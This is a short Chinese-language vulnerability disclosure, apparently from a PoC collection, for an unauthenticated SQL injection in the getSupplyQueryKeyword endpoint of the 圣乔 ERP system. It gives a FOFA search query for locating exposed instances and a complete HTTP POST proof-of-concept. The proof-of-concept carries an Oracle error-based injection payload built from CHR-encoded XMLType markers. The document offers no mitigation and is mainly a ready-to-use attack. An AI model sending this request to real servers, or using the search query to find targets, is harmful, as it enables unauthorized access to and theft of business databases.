 # 圣乔ERP系统getSupplyQueryKeyword存在SQL注入漏洞

圣乔ERP系统 getSupplyQueryKeyword接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息

## fofa

```javascript
title="圣乔ERP系统"
```

## poc

```javascript
POST /erp/dwr/call/plaincall/DwrUtil.getSupplyQueryKeyword.dwr HTTP/1.1
Host: 
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Content-Type: text/plain
Accept-Encoding: gzip, deflate

callCount=1
page=/erp/dwr/test/DwrUtil
httpSessionId=
scriptSessionId=7D0BA25CD588C62EB9A08A089C7F368D561
c0-scriptName=DwrUtil
c0-methodName=getSupplyQueryKeyword
c0-id=0
c0-param0=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(106)||CHR(122)||CHR(122)||CHR(113)||(SELECT (CASE WHEN (99=99) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(118)||CHR(122)||CHR(118)||CHR(113)||CHR(62))) FROM DUAL)
batchId=9
```

